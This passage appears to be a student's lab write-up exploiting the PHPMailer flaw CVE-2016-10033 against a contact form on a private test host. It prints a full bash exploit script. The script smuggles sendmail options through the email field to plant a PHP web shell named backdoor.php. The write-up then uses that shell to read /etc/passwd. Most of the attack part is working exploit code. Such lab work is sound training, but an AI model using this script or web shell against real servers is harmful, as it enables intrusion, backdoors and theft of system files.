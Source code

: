 Looking into the first couple of PHP < 5.2.18 - Remote Execution scripts we can see that the exploits were disclosed as part of `CVE-2016-10033`.

Using the provided `exploit.sh` script I made the modification to point to the correct target.

```sh
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.115/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```
[Exploit Script](exploit.sh)

This script uploads a backdoor.php file after it has been run. The backdoor can then be used to exploit remote code execution.

![Exploit](images/exploitRan.PNG "Exploit")


To test this I navigated to `http://192.168.1.115/backdoor.php?cmd=cmd=cat%20/etc/passwd`. This should execute the command `cat /etc/passwd` and output to the screen. Viewing the Page Source output made the command output easier to read.
